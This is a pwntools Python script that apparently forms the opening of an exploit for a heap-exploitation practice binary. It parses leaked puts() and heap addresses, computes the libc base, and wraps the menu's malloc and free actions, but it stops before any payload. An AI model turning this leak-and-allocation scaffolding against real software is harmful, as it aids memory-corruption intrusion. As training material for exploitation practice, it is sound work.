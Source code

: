 ```python

def handle():
    global puts
    global heap
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    info('puts @ ' + hex(puts))
    info("heap @ " + hex(heap))
    return puts, heap
    
def info_user(age, name):
    io.sendafter(b'Enter your age: ', str(age).encode())
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')
    
def malloc(size, data, chunk_name):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.sendafter(b'data: ', data)
    io.sendafter(b'chunk name: ', chunk_name)
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    
def free(index):
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def target():
    io.send(b'3')
    io.recvuntil(b'> ')

def quit():
    io.send(b'4')

    
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path)



io = start()

puts, heap = handle()
libc.address = puts - libc.sym['puts']
info("libc base: " + hex(libc.address))
io.timeout = 0.1

#=====================================================================================
# Ignore the "age" field.
age = 0
# Ignore the "username" field.
username = b'Broder'
```